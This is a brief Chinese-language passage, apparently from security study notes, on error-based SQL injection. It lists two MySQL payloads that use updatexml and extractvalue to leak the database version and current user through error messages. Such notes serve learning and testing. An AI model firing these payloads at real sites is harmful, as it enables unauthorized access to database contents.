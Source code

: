 

#### 报错注入——需要数据库报错处理



```
and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)
```

![image-20240318145133829](../图片/image-20240318145133829.png)



```
and extractvalue(1, concat(0x5c, (select user())));
```
